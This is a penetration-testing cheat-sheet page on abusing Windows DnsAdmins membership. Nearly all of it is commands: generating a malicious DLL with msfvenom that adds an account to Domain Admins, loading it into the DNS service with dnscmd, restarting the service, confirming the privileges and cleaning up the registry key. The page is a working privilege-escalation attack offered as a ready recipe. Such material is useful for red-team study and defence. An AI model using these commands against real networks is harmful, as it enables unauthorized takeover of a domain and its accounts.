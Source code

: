 # DnsAdmins

## <mark style="color:yellow;">ABOUT</mark>

Members of the <mark style="color:red;">**DnsAdmins**</mark> group can <mark style="color:purple;">**access DNS information within the network**</mark>. The Windows DNS service allows <mark style="color:yellow;">**custom plugins**</mark>, which can execute functions to resolve name queries beyond the locally hosted DNS zones. Since the DNS service operates with <mark style="color:green;">`NT AUTHORITY\SYSTEM`</mark> privileges, being part of this group could be exploited to escalate privileges on a Domain Controller or a dedicated DNS server for the domain. The built-in **dnscmd** utility can be used to define the path of the plugin DLL.

## <mark style="color:yellow;">Importing custom plugin</mark>

#### Generating malicious dll

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" ven17 /add /domain' -f dll -o adduser.dll
```

#### Starting local HTTP server

```bash
python3 -m http.server 1337
```

#### **Loading DLL**

<mark style="color:orange;">**You should be DnsAdmins group member!**</mark>

```powershell
C:\> dnscmd.exe /config /serverlevelplugindll C:\Users\ven17\Desktop\adduser.dll
```

* If successful: <mark style="color:green;">`Registry property serverlevelplugindll successfully reset.`</mark>

#### Restart DNS Service

<pre class="language-sh"><code class="lang-sh"><strong>C:\> sc.exe stop dns
</strong>C:\> sc.exe start dns
</code></pre>

#### Confirm Admin Privileges

```sh
PS C:\> net group "Domain Admins" /dom
```

## <mark style="color:yellow;">Cleanup</mark>

#### **Confirming Registry Key Added**

```powershell
C:\> reg query \\13.13.13.13\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

#### Delete Registry Key

```powershell
C:\> reg delete \\13.13.13.13\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

#### Restart DNS Service

```powershell
C:\> sc.exe start dns
C:\> sc query dns
```
